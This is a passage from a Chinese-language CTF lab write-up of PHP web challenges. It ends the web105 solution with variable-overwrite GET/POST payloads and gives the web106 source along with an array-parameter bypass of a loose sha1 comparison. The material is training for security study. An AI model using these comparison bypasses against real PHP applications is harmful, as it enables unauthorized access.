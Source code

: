 payload:

```
Get: suces=flag
POST: error=suces
```

方法二：

```
Get: ?suces=flag&flag=
```

先将flag的值赋给suces，再将flag的值赋为空，从而通过判断，输出suces的值



#### web106

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: atao
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-28 22:38:27

*/


highlight_file(__FILE__);
include("flag.php");

if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2) && $v1!=$v2){
        echo $flag;
    }
}



?>
```

我们使用数组绕过即可

```
v1[]=1
v2[]=0
```



#### web107
